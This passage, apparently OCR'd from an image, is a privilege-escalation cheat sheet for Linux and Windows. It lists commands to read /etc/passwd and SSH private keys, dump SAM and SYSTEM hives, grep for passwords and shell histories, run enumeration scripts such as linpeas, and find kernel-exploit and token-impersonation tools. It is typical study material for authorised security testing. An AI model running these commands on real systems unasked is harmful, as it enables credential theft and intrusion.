 - `cat /etc/passwd` | `net user /domain`
- `groups` | `whoami /groups`
- `env` / `printenv` | `set`

### Files & directories (pick & mix)

```bash
find / -perm -4000 -type f 2>/dev/null      # SUIDs
grep -Ri "password" /home /opt 2>/dev/null  # creds
ls -la /root /home/*/.*_history            # histories
```

- SSH keys → `cat ~/.ssh/id_rsa`
- SAM & SYSTEM → `reg save HKLM\\\\SAM sam` + `reg save HKLM\\\\SYSTEM system`

### Automated enum

- `./linpeas.sh -a` | `winpeas.exe cmd > winpeas.txt`
- `./pspy64` (watch cron / processes)

### Suspicious services

- `systemctl list-units --type=service` (Linux)
- `sc queryex type=service` / `wmic service get name,pathname,startmode` (Windows)
### Kernel exploits

- `uname -r` → if **< 4.8** consider DirtyCow (`searchsploit dirtycow`)
- `windows-exploit-suggester.py --systeminfo systeminfo.txt` (classic)

_If you spot `sudo NOPASSWD`_, consult **GTFOBins**.

_If you find `SeImpersonatePrivilege`_, drop **PrintSpoofer/Incognito/JuicyPotato**.